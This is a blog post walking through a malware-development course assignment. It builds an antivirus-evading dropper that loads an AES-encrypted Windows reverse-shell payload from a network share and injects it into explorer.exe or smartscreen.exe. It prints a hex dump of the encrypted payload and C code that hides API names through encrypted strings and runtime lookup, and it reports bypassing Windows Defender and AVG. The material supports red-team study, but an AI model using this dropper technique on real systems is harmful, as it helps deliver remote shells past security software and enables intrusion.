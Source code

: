 ```yaml
---
layout: single
title: AV Evasion - Sharing is (s)caring
date: 2020-10-02
classes: wide
header:
  teaser: /assets/images/AV_evasion/kittens.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/girolamo_savonarola.jpg)<br>

## Introduction
Hello hackers and welcome back to the 3rd and last assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/the-payload-is-behind-kitties/) we saw PE injection using a payload hidden inside an image, implemented the dropper with the capacity of extraction of the payload and injecting it in the PE process target. The last assignmet ask us to encrypt a payload, load it on the file system or in our case in folder shared with the target OS, and write a dropper that open the payload and trigger the injection. The suggestions here are to use the [CretaeFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and [ReadFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) WinAPI functions.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to open the payload from a directory on the fiule system, we choosed a network sherd folder, so take a look closer to the payload memory loading and analyze what we have to change.

## the Payload
In the previous posts we alredy prepared and encrypted payload that was implemneted as a resource or hidden behind an image, so there isn't much work here. The AES256 encrypted payload is the same used in the last post so a simple Win64 reverse shell

Let's check thje payload with ```xxd```
```bash
xxd -g1 payload_enc
00000000: 4d 37 18 fc 9d 9a ac 18 47 a6 fc 63 96 fc df 01  M7......G..c....
00000010: 1b 24 25 c0 7f 11 c6 5b 9a 8f b6 c3 1b e3 de 01  .$%....[........
00000020: 9a e3 de 83 1b e0 82 dc 60 9d 90 f8 b9 53 c9 78  ........`....S.x
00000030: 35 a3 92 1e 74 65 04 71 2f 9f e3 37 47 1a b9 3a  5...te.q/..7G..:
00000040: 55 60 f3 78 c0 64 1d ef 60 81 79 19 8e e2 44 3e  U`.x.d..`.y...D>
00000050: 06 1c 01 0c 35 8a 28 f3 38 cf 13 0e 07 05 ff 37  ....5.(.8......7
00000060: 39 98 52 b4 45 65 46 27 47 4d 1a 5d 7a 1e e3 4e  9.R.EeF'GM.]z..N
00000070: 2c 0b be e1 01 78 99 48 30 c3 01 cc e4 12 49 96  ,....x.H0.....I.
00000080: c0 d8 0d 1d 5d 0b 14 6a 64 b7 04 ae 34 6c 27 4f  ....]..jd...4l'O
00000090: 9e ef c9 58 15 86 31 57 a9 1b 8f 7c 9b 69 73 7d  ...X..1W...|.is}
000000a0: ba 53 93 34 1d db c0 c4 d9 be 2a 47 0c 63 56 0d  .S.4......*G.cV.
000000b0: 43 9d 27 fd 12 1c 11 61 ae f5 b8 d7 eb f2 ad 67  C.'....a.......g
000000c0: 25 1b f9 ef 24 4b 6c ed 04 63 ea 68 92 63 ee 75  %...$Kl..c.h.c.u
000000d0: 48 65 40 c3 50 f2 d2 88 8c 43 51 1c ea 82 67 9d  He@.P....CQ...g.
000000e0: 32 4f 13 f9 ba df da 0e dc e6 0a 69 8d 87 98 9a  2O.........i....
000000f0: df a4 41 60 a0 1b f6 85 e2 57 3c 57 d2 b6 06 b5  ..A`.....W<W....
00000100: 41 40 24 c9 2d f1 68 c4 57 6e c4 4d 43 18 e5 4f  A@$.-.h.Wn.MC..O
00000110: 09 0c 89 ff c2 d0 4a bc 55 b6 50 3a b4 53 dd 69  ......J.U.P:.S.i
00000120: 62 2d c2 89 d1 a9 11 c3 d2 57 63 ed 7f 31 e3 41  b-.......Wc..1.A
00000130: fb 91 08 1e 9e d7 94 17 58 4c 7b 0d 79 ee 9b fe  ........XL{.y...
00000140: 5f 59 b7 f3 bb 61 fb 0e eb 45 da 6c b5 9e e5 f9  _Y...a...E.l....
00000150: 65 fb 18 7f a0 9a d3 7d 63 76 79 a2 01 ea 1a f8  e......}cvy.....
00000160: dd 54 cf 64 bc 8c b2 d2 26 04 b9 d4 6d 97 78 88  .T.d....&...m.x.
00000170: 79 d8 e7 50 2a 21 18 4f 1a e3 b4 9d ec c4 de 11  y..P*!.O........
00000180: 6d 8d fc 05 d2 a1 42 ff 6b ad 75 67 16 26 93 66  m.....B.k.ug.&.f
00000190: 55 76 86 eb 4c c7 45 c1 a1 3b f5 12 a6 5a 6a 01  Uv..L.E..;...Zj.
000001a0: fe 31 13 10 77 1b cd 47 dd d8 c2 8a cc 90 ca b5  .1..w..G........
000001b0: b2 64 40 d6 0a 73 66 76 95 08 1c cc b6 f7 6f 9c  .d@..sfv......o.
000001c0: 04 46 10 53 9e 1f 09 bc 95 cf 25 70 e1 38 0b 9c  .F.S......%p.8..
```
Now we must mount the folder where the payload is, in the target OS as a shared folder. 

## the Dropper
As for the previous post the only thing to change is the way the payload is loaded in memory. 

```c
  // Load resources section
  res = pFindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
  resHandle = pLoadResource(NULL, res);
      
  // Extract payload from the image
  image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
  image_len = SizeofResource(NULL, res); // get the size of the jpg + p0 + last 7 bytes 
  
  end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without p0
  size = atoi(end); // cast from char to int, now size is the original size of the jpg
  offset = image + size; // offset points to the first char of the p0
  p0_len = image_len - size - 7; // calculate the payload size
  memcpy(p0, offset, p0_len); // copy in another memory area the effective p0

  // Allocate some memory buffer for p0
  exec_mem = pVirtualAlloc(0, p0_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy p0 to new memory buffer
  pRtlMoveMemory(exec_mem, p0, p0_len);
```

In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change this section like this

```c
  //Define the BUFFSIZE
  #define BUFFSIZE 512

  ...
  // Define the pointer to the kernel32.dll File manipuulation functions
  HANDLE (WINAPI * pCreateFileA)(
    LPCSTR                lpFileName,
    DWORD                 dwDesiredAccess,
    DWORD                 dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD                 dwCreationDisposition,
    DWORD                 dwFlagsAndAttributes,
    HANDLE                hTemplateFile
  );

  BOOL (WINAPI * pReadFile)(
    HANDLE       hFile,
    LPVOID       lpBuffer,
    DWORD        nNumberOfBytesToRead,
    LPDWORD      lpNumberOfBytesRead,
    LPOVERLAPPED lpOverlapped
  );

  ...
  // Define the encrypted name of the functions strings 
  unsigned char sCreateFileA[] = { ... };
  unsigned char sReadFile[] = { ... };
  ...

  // Decrypt the strings
  AESDecrypt((char *) sCreateFileA, sizeof(sCreateFileA), key, sizeof(key));
  AESDecrypt((char *) sReadFile, sizeof(sReadFile), key, sizeof(key));
  ...

  // Define the path where payload is stored (remember the double backslashes to avoid the escaping characters)
  // the file HANDLE and the payload buffer size
  HANDLE hFile;
  char path[] = "\\\\tsclient\\share\\payload_enc";
  char* payload[BUFFSIZE] = {0};
  ...

  // Populate the pointer to the functions with the GetModuleHandle call
  pOpenProcess = GetProcAddress(GetModuleHandle(sKernel), sOpenProcess);
  pCreateFileA = GetProcAddress(GetModuleHandle(sKernel), sCreateFileA);
  ...

  // Load the payload from FS to memory
  hFile = pCreateFileA(path, GENERIC_READ,FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  
  if (hFile == INVALID_HANDLE_VALUE) {
    return 0;
  }

  if (FALSE == pReadFile(hFile, payload, (BUFFSIZE-1), NULL, NULL)) {
    return 0;
  }
  
  // Close the HANDLE
  pCloseHandle(hFile);
  
  payload_len = strlen(payload);
  
  // Allocate some memory buffer for payload
  exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Copy payload to new memory buffer
  pRtlMoveMemory(exec_mem, payload, payload_len);
```
After opening the file with ```CreateFileA``` function we need to read it with the ```ReadFile``` function, this function load the payload as binary stream in the ```payload``` pointer in memory. What we must do now is to calculate the payload lenght and move the payload to another RW memory buffer. After that we are ready to decrypt our payload and inject it in our PE target process.

## Tests
As in the previous post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but in this case  the injection doesn't trigger Windows Defender nor AVG Free "only" on ```explorer.exe``` and ```smartscreen.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active. So, also in this case, we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_fs_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Sharing%20is%20scaring/implant.cpp) you can find the dropper code. <br>
We hope you enjoied the ride on ```RedTeam Operator Malware Development Essentials``` walkthrough assignments and stay tuned for the ```Intermediate``` level posts :)

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https://twitter.com/Sektor7Net) <br>
